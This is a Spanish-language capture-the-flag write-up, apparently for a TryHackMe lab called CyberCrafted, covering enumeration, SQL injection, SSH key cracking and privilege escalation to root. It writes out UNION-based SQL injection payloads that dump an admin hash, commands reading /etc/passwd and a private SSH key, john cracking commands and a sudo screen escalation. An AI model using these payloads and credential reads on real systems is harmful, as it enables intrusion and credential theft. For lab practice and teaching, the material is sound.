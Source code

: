 ### Tags: `Virtual Hosting` `SQLI` `ssh2john`

# Escaneo (*22,80,25565*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn ip -oN escaneo
```
![image](https://github.com/user-attachments/assets/f0272aa8-5cfc-4150-a6fe-e7be9d396599)

# Web port80

Encontramos un dominio que lo añadimos sal  `etc/hosts`

![image](https://github.com/user-attachments/assets/9a964c02-b302-4e33-8090-8537bf3a52a8)

Ahora visualizamos la web y no había nada pero cuando hicimos `Ctrl + u` encontramos esto

![image](https://github.com/user-attachments/assets/c1ce8331-fd13-4d65-b70d-4a6d4ba51e1f)

## Gobuster (**subdominios**)

```ruby
gobuster vhost -u http://cybercrafted.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

Encontramos estos subdominios los agregamos al `etc/hosts`

![image](https://github.com/user-attachments/assets/be7fc1ce-5590-4615-a596-478575e2909a)

En los 2 (que marcamos en rojo) había un **panel de login** que era el mismo --> (por este lado no es la vía)

![image](https://github.com/user-attachments/assets/99e08865-a65c-40cc-b483-4a6acd18f59c)

También había un subdominio `www.store.cybercrafted.thm` y haciendo Gobuster encontramos este `search.php`

![image](https://github.com/user-attachments/assets/17acaa2d-a341-45b2-9c2a-fa390f0cc92d)


```ruby
gobuster dir -u http://www.store.cybercrafted.thm/  -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php --no-error
```

![image](https://github.com/user-attachments/assets/40e00520-edb0-48ef-939c-e7e093ec3d1d)
![image](https://github.com/user-attachments/assets/51dca3c3-8ae7-4158-b14a-b2a6bc9b600b)

# SQLI (**BurpSuite**)

Observamos que es panel es a vulnerable `sql injection`, si poníamos `'or 1=1 -- -` nos muestra ítems que no aparecían antes. Interceptamos la petición con Burp y con `'order by 4-- -` supimos que había cuatro columnas.
Con este comando `'union select NULL,NULL,NULL,table_name FROM information_schema.tables -- -` observamos una tabla llamada `admin`

![image](https://github.com/user-attachments/assets/36d09945-f699-4884-80ed-2b5ad6936794)

Con este comando `'union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_name = 'admin' -- -`  enumeramos las tablas de `admin`.

![image](https://github.com/user-attachments/assets/a8fb8bf0-294b-428f-90a8-8cf8e2bfec6a)

Obtenemos el hash y el user de esta forma: `'union select NULL,NULL,user,hash from admin -- -`

 ![image](https://github.com/user-attachments/assets/ea4f3a0a-8016-4219-a506-39add30328c1)

Tenemos un usuario y una contraseña que la Desencriptamos en [CrackStations](https://crackstation.net/) --> `xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01`, `diamond123456789`

![image](https://github.com/user-attachments/assets/9aa6cb56-97bc-47c3-acef-61056f9c56dd)

Probamos las credenciales para el **panel** y funcionó!

![image](https://github.com/user-attachments/assets/90b65816-1b04-4722-a9d6-4e00e1f23a66)

# Explotación

Tamos dentro y tenemos ejecución de comandos 

![image](https://github.com/user-attachments/assets/aae57b06-18d3-43a9-9023-b137cb69a32d)

Listando el `etc/passwd` vemos 

![image](https://github.com/user-attachments/assets/d1e3d618-3b71-4d65-ab29-c15368de52a3)

Pudimos obtener la `id_rsa` de `xxultimatecreeperxx` 

```ruby 
cat /home/xxultimatecreeperxx/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/2b5f035f-3e21-4597-a07c-419b3bf97c79)

Como esta encriptado hacemos lo siguiente:

```ruby
 ssh2john id_rsa > hash.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tenemos la contraseña `creepin2006` para conectarnos por SSH

![image](https://github.com/user-attachments/assets/6375f344-93dc-4da4-80d3-eb09e6c5493f)

## SSH

Nos conectamos por SSH como el user **xxultimatecreeperxx** y con la contraseña que encontramos anteriormente 

```css
 chmod 600 id_rsa
 ssh xxultimatecreeperxx@10.10.126.43 -i id_rsa
```
![image](https://github.com/user-attachments/assets/403ee93f-6537-461f-b9a4-2121b3846e78)

# Escalada (`cybercrafted`)

Dentro de `/opt` tenemos esto

![image](https://github.com/user-attachments/assets/73cc4f92-5518-4498-b3bb-c5aa1fdbaf31)

Encontramos la contraseña de *cybercrafted* en  un archivo llamado `log.txt` , `JavaEdition>Bedrock`

![image](https://github.com/user-attachments/assets/3057b981-55c1-4ae7-98fe-f9c2abc4b2db)
![image](https://github.com/user-attachments/assets/3a793de4-f81e-41f7-b038-4b175fce2fec)

# Escalada ROOT

Vemos que poniendo `sudo -l` tenemos esto esto que podemos ejecutar como root:

![image](https://github.com/user-attachments/assets/3a60cf66-d76e-4182-a2d8-5f49027b678e)

Buscando en internet en este [Enlace](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-screen-privilege-escalation/) nos dice que acceder como hay que hacer para escalar a root:

```ruby
 sudo /usr/bin/screen -r cybercrafted
 Ctrl+a+c
```

![image](https://github.com/user-attachments/assets/7893a598-1872-4613-9961-a9c1b3099d9c)

